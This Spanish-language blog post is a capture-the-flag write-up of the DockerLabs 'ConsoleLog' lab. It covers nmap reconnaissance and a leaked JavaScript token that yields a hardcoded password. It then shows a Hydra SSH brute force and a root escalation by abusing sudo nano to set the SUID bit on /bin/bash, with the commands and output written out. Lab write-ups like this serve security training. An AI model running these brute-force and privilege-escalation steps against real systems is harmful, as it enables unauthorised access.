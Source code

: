 ```yaml
---
title: ConsoleLog
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-consolelog/consolelog_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - ssh
  - data leaks
  - java script
  - fuzzing web
  - password attacks
  - sudo abuse
  - suid
  - information gathering
  - web analysis
  - data leak exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ ping -c 1 172.17.0.03
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.032 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.032/0.032/0.032/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 80/open/tcp//http///, 3000/open/tcp//ppp///, 5000/open/tcp//upnp///	Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ nmap -sCV -vvv -p80,3000,5000 -oN nmap/nmap2 172.17.0.3
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Mi Sitio
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
3000/tcp open  http    syn-ack ttl 64 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Error
5000/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f837107e16a227b83a6e2c16357d14fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFJIePZQO0+XTgRiD8dhTqAlZt67hcjqMdzF07uhb1UjckCZ085MdTFxg46SKaJRwi1OiB8GT+SeIlFbvm99Xkc=
|   256 cd11106460e8bfd9a4f48eae3bd8e18d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIESd2Y3i6yTEAk2fPflmI3fA4pNsVZub38LafzPteZlz
MAC Address: 5A:62:7A:E6:4C:58 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.61], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.61 (Debian)], IP[172.17.0.3], Script, Title[Mi Sitio]
```

---
## Web Analysis

Accedo al sitio principal y visualizo una página básica con un título y un botón marcado como "Boton en fase beta".

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_1.png)

Inspeccionando el botón, identifico que ejecuta la función `autenticate()` definida en el archivo `authentication.js`.

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_2.png)

Revisando su contenido, descubro que imprime un mensaje de depuración que expone el token requerido por el endpoint `/recurso/`.

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_3.png)

Envio el token mediante una solicitud POST al puerto 3000 y obtengo como respuesta una cadena en texto plano que aparenta ser una contraseña.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ curl -X POST http://172.17.0.3:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'
lapassworddebackupmaschingonadetodas
```

Sin embargo, fuzzeando la web descubro el directorio abierto `/backend/`, el cual expone el archivo `server.js`.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ dirb http://172.17.0.3/
---- Scanning URL: http://172.17.0.3/ ----
==> DIRECTORY: http://172.17.0.3/backend/
+ http://172.17.0.3/index.html (CODE:200|SIZE:234)
==> DIRECTORY: http://172.17.0.3/javascript/
```

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_4.png)

Dentro del script encuentro la implementación del endpoint `/recurso/`, confirmando que la contraseña se encuentra hardcodeada en el backend.

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_5.png)

---
## Data Leak Exploitation

Utilizo la contraseña descubierta anteriormente para realizar un ataque de fuerza bruta sobre el servicio SSH expuesto en el puerto 5000.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ hydra -L /opt/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.3:5000 -t 40 -I
[5000][ssh] host: 172.17.0.3   login: lovely   password: lapassworddebackupmaschingonadetodas
```

El ataque resulta exitoso con el usuario `lovely` y accedo al sistema mediante SSH con las credenciales obtenidas.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ ssh lovely@172.17.0.3 -p 5000 
lovely@172.17.0.3's password: lapassworddebackupmaschingonadetodas

lovely@413f463a3fce:~$ id
uid=1001(lovely) gid=1001(lovely) groups=1001(lovely),100(users)
```

---
## Privilege Escalation

```terminal
lovely@413f463a3fce:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
tester:x:1000:1000::/home/tester:/bin/bash
lovely:x:1001:1001:lovely,,,:/home/lovely:/bin/bash
```

Identifico que el usuario `lovely` tiene permisos de `sudo` sobre el binario `/usr/bin/nano` sin requerir contraseña.

```terminal
lovely@413f463a3fce:~$ sudo -l
Matching Defaults entries for lovely on 413f463a3fce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on 413f463a3fce:
    (ALL) NOPASSWD: /usr/bin/nano
```

De acuerdo a [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo), `nano` ejecutado con `sudo` puede usarse para escalar privilegios, ya que no elimina los permisos elevados durante su ejecución.

Lanzo nano como superusuario.

```terminal
lovely@413f463a3fce:~$ sudo nano
```

Y ejecuto la siguiente secuencia para obtener una shell privilegiada

* `Ctrl + r`, `Ctrl + x`
* Command to execute: `reset; sh 1>&0 2>&0`
* `# chmod u+s /bin/bash`
* `# exit`

Salgo sin guardar cambios

* `Ctrl + x`, Save modifed buffer? `n`

Esto activa el bit SUID en `/bin/bash`.

{% include embed/video.html src='assets/img/dockerlabs-writeup-consolelog/consolelog1_6.webm' types='webm' title='Sudo Abuse' autoplay=true loop=true muted=true %}

Por ultimo, ejecuto `bash -p` para iniciar una shell con privilegios de `root`.

```terminal
lovely@413f463a3fce:~$ bash -p

bash-5.2# id
uid=1001(lovely) gid=1001(lovely) euid=0(root) groups=1001(lovely),100(users)
```
